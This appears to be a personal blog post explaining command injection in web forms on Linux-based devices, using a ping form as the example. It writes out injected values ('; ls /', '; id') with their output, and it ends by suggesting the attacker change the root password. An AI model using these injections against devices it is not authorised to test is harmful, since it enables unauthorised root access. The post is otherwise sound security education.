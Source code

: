 ```yaml
---
title: Hacking into things
tags:
  - linux
  - hacking
  - programming
created: 2023-07-13T19:29:40+02:00
updated: 2023-08-27T23:39:53+02:00
publish: true
---
```


This has been something that I've had an interest for for many years and have dabbled in every now and then when I had the chance.

Every now and then you get a device that you soon figure out is running a flavour of Linux and you start wondering, can I get root access to it? 🤔
You start poking around and after a little while you find a HTML form that is not behaving as it should.

## HTML Forms
### Ping prompts
Ping prompts might be the easiest to see why it could be so easy to break.

In the form you might see something along the lines of an `Address` field and a `Submit` button.  
You enter in the address and press the button, a few seconds later you get back a response along the lines of:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.1 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=26.1 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.8 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 26.142/26.944/27.731/0.569 ms
```

If you're familiar with Linux you quickly realize that this is the output of `iputils-ping`.  
What you should also realize is that this command is being called from the application running the webserver.  
With this information we can make some assumptions.

The command to get the exact output (except for the latency times and packet loss if any) is the following:
```
$ ping -c 4 8.8.8.8
```
From this we can extrapolate that the `Address` field from the form is populating the address used by the ping command.

Lets assume the command is run as: `ping -c 4 ${address}`  
This shows that the address is a variable and is populate based on what was entered in the `Address` field.

Now, what would happen if we instead input `8.8.8.8; ls /` in the `Address` field?  
The variable would then be expanded to `ping -c 4 8.8.8.8; ls /` and give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=26.0 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.3 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=28.9 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.995/27.524/28.853/1.037 ms
bin   dev  home  lib64       media  opt   root  sbin  sys  usr
boot  etc  lib   lost+found  mnt    proc  run   srv   tmp  var
```
Notice the directory listing at the bottom.

Now for the final check, instead of listing the directory, we check which user is being used to run the webserver and as an extension the commands.  
This we can achieve with the `id` command and would look like this: `; id`.  
The command will be expanded to `ping -c 4 8.8.8.8; id` and would give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.0 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.976/27.351/27.862/0.796 ms
uid=0(root) gid=0(root) groups=0(root)
```

This shows us that the root user is running the commands and we're already in.  
The only thing to do is to change the password of the root user.  

What we've done in this example is what's called Remote Code Execution (RCE) or Command Line Injection.
